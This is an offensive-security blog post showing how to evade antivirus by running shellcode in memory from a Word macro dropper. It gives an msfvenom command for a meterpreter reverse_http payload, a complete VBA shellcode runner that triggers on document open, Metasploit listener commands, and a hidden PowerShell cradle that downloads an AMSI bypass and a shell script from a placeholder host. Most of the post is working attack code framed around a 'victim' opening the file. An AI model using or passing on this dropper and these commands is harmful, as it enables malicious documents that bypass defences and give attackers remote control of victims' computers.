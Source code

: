 ```yaml
---
layout: post
title: Running ShellCode in Memory | AV Evasion – VBA Version 

---
```

![](/images/2021-08-13-VBAShell/0.png)

If you try to download an executable to get a reverse shell on a system, it most likely will be detected and blocked by either host-based network monitoring system or AV/EDR sweeps it off, so this post we will discuss how to be stealthier and execute shell code in memory.

For the sake of this example, I am going to use a word macro as a dropper to do this.

Although it may seem complicated, all we need to do is:

***1) Use something to allocate unmanaged memory***

***2) Copy our shell code into our allocated memory from step 1***

***3) Create execution thread***

I have gone about doing these two ways:

1) Using VBA

2) Using Powershell

In this post, we will discuss how we can get this to work with VBA:

For this, we will use win32 APIs from kernal32.dll:

***1) VirtualAlloc***

***2) RtlMemory***

***3) CreateThread***



Let’s just be optimistic and generate our shellcode using msfvenom:



```
msfvenom -p windows/meterpreter/reverse_http LHOST=x.x.x.x LPORT=443 EXITFUNC=thread -f vbapplication

```


**Couple of things to note here:**

a)	We are using 32bit arc for the meterpreter shell since MS word by default runs on 32-bit Arc

b)	We are using “thread” as exit func instead of “process” to avoid our MS word getting terminated when shell exits


***Read the MSDN docs to understand how the function used works:***

1)	[VirtualAlloc]( https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)

2)	[rtlmovememory](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)

3)	[Create Thread]( https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread )


**The whole VBS looks like this:**

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
Dim buf As Variant
Dim addr As LongPtr
Dim counter As Long
Dim data As Long
Dim res As Long

buf = Array(insert shell code here)

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

For counter = LBound(buf) To UBound(buf)
data = buf(counter)
res = RtlMoveMemory(addr + counter, data, 1)
Next counter

res = CreateThread(0, 0, addr, 0, 0, 0)

End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub

```



![](/images/2021-08-13-VBAShell/1.png)

Once you have this, save the word document in macro format such as .doc or .docm

Set up the listener:

```
set payload windows/meterpreter/reverse_http
set LHOST x.x.x.x
set LPORT 443
set EXITFUNC thread
set set ReverseListenerBindAddress <internal IP>
exploit
```

Once, the victim opens the macro document the shell code runs in memory and we get a reverse shell:



![](/images/2021-08-13-VBAShell/2.png)


![](/images/2021-08-13-VBAShell/3.png)


Now this is a low-profile technique, but there are some issues with this:

***1)	The shell code present in word document which is saved on hard drive might get detected by the AV***

***2)	Whenever the word file is closed the session get terminated since the SPAWNED process is a child of word file.***

## How can we improve these and make things more efficient?

I will write up on this in a different post, but I will give the folks reading this post a chance to try it for themselves, so here are some clues:

***1)	Use Powershell for this, Powershell cannot interact with win32 API directly, so use C# with the help of .NET framework (DllImportAttribute class).***

***2)	Use P/Invoke APIs contained in the System.Runtime.InteropServices and System namespaces (changing C to C# datatype)***

Ref: [P/Invoke](www.pinvoke.net )

***3)	Now use Add-Type in PowerShell to compile and create object***

Reference: [Add-Type Example](http://adamringenberg.com/powershell2/Add-Type/ )

***4)	Use .NET Copy method to copy the shellcode into memory***

***5)	Finally, before running the shell code in memory make sure to use an AMSI bypass to run first (use PowerShell download cradle)***

Something like this:

```
Sub ShellCodeRunner() 

Dim str As String
  
str = "powershell IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/AmsiBypass.ps1'); IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X/Shell.ps1')"
Shell str, vbHide End Sub
```

You just need to craft the content of shell.ps1 as your homework :)

Proof of Concept: [Evading Anti-Virus](https://www.youtube.com/watch?v=nO6SoCNVQXI&ab_channel=San3ncrypt3d)






















